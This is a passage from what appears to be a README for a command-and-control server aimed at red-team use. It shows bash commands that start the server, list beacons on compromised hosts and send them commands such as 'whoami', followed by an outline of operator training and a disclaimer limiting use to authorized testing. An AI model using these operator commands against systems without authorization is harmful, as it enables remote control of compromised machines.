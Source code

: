 ```bash
# Start server
python c2_server.py --host 0.0.0.0 --port 8443

# With custom database
python c2_server.py --db /path/to/custom.db

# List active beacons
curl -H "X-API-Key: YOUR_KEY" http://localhost:8443/api/beacons

# Send command
curl -X POST -H "X-API-Key: YOUR_KEY" -H "Content-Type: application/json" \
  -d '{"command":"whoami"}' \
  http://localhost:8443/api/beacon/BEACON_ID/command
```

---

## 🎓 Training & Documentation

Complete operator training includes:
- Initial setup and deployment
- Beacon generation and customization
- Operational security best practices
- Incident response procedures
- Legal and ethical considerations
- Advanced techniques and TTPs
- Troubleshooting and debugging

---

**⚠️ LEGAL DISCLAIMER**: This C2 server is designed for authorized penetration testing and red team operations only. Unauthorized access to computer systems is illegal. Always obtain proper authorization before deployment.
